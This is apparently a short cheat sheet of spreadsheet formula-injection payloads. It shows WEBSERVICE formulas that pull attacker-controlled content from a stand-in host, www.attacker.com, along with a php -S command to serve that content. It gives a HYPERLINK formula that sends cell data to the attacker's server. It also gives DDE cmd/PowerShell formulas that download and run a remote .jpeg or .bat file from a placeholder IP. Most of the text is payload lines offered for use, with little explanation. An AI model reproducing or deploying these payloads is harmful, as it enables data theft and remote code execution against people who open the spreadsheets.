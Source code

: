 Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
```
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################
```
To fill in multiple cells use multiple html file
```
=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
```
```
=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################
```

Use Hyperlink formula to send data to attacking server
------------------------------------------------------
```
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")
```

Execute content when the spreadsheet loads
------------------------------------------------
```
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0
```
